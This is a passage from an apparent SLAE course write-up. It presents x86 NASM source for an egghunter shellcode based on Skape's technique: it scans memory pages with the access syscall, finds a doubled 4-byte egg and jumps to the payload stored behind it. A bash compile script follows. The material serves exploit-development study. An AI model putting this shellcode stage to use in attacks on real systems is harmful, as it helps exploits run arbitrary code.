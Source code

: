 Note is made of the fact that EFAULT (0xf2) should be avoided, as the error states the pathname would point outside the accessible address space.

#### Assembly Code (Updating the Skape code reference)
-------------

````nasm
; Filename: egghunter.nasm
; Author: h3ll0clar1c3
; Purpose: Egghunter, spawning a shell on the local host
; Compilation: ./compile.sh egghunter
; Usage: ./egghunter
; Shellcode size: 113 bytes
; Architecture: x86

global   _start

section .text
        _start:

	; initialize register
	xor edx, edx
	
	next_page:
	or dx, 0xfff		; set dx to 4095
	
	next_address:
	inc edx			; incdx to 4096 (PAGE_SIZE)
	lea ebx, [edx +0x4]	; load 0x1004 into ebx
	push byte +0x21		; 0x21 is dec 33 (access syscall)
	pop eax			; put the syscall value into eax
	int 0x80		; call the interrupt, execute the syscall
	
	cmp al, 0xf2		; check if return value is EFAULT (0xf2)
	jz next_page		; if EFAULT is encountered, jump back to next_page 
	mov eax, 0x50905090	; move unique egg value into eax
	mov edi, edx
	
	; search for the egg
	scasd			; search for first 4 byte pattern of the egg
	jnz next_address
	
	; search again for 2nd copy of the egg 
	scasd			; search for second 4 byte pattern of the egg
	jnz next_address
	jmp edi			; jump to egg payload
````

The Assembly code is compiled by assembling with Nasm, and linking with the following bash script whilst outputting an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat compile.sh
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```


[skape-link]: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment2